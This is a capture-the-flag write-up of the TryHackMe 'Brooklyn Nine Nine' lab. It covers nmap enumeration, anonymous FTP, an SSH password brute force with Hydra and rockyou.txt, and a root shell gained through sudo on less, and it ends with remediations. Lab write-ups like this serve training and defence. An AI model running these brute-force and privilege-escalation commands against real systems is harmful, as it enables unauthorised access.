







+++
date = '2026-06-29T11:43:00+03:00'
draft = false
title = 'Brooklyn Nine Nine — TryHackMe'
tags = ["TryHackMe", "Linux", "Boot2Root", "Easy", "FTP", "Privilege Escalation", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target IP to identify running services and potential entry points.

```
nmap -sV -sC <target_ip>
```

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.141.175
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

**Key Findings:**

- FTP (port 21) allows anonymous login and contains a file `note_to_jake.txt`.
- SSH (port 22) has password authentication enabled.
- HTTP (port 80) is running Apache.

### FTP — Anonymous Access

Connecting via anonymous FTP revealed a single file addressed to a user named Jake.



### SSH — Password Authentication

Testing the SSH service confirmed that password-based authentication is permitted, making it a viable attack vector.



## Step 2: Initial Access

The `note_to_jake.txt` file retrieved from the FTP server contains a message hinting at a weak password.



With a confirmed username (`jake`) and password authentication enabled on SSH, the credentials were brute-forced using Hydra with the `rockyou.txt` wordlist.

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt <target_ip> ssh -t 4
```



The brute force successfully recovered Jake's password, granting initial SSH access to the system.

## Step 3: Privilege Escalation

After gaining access as `jake`, the first step was to check what sudo permissions were available.



The user `jake` can run `less` as sudo without a password. This is a classic privilege escalation vector documented on [GTFOBins](https://gtfobins.github.io/gtfobins/less/).



### Getting Root

Using the sudo privilege on `less`, a root shell was spawned by reading any file and escaping to a shell:

```
sudo less /etc/profile
```

Inside `less`, the following command was used to drop into a root shell:

```
!/bin/bash
```



This escalated privileges to root, completing the compromise.

## Conclusion

This beginner-friendly room demonstrated a straightforward attack path:

1. **Anonymous FTP** leaked a note revealing a username.
2. **SSH brute force** with a weak password gained initial access.
3. **Misconfigured sudo** permission on `less` allowed privilege escalation to root via GTFOBins.

### Remediations

- **Disable anonymous FTP** if not required, or restrict it to non-sensitive directories.
- **Enforce strong passwords** and implement account lockout policies to resist brute force attacks.
- **Audit sudo permissions** regularly — binaries like `less`, `vim`, and `more` with sudo access can easily lead to root compromise.
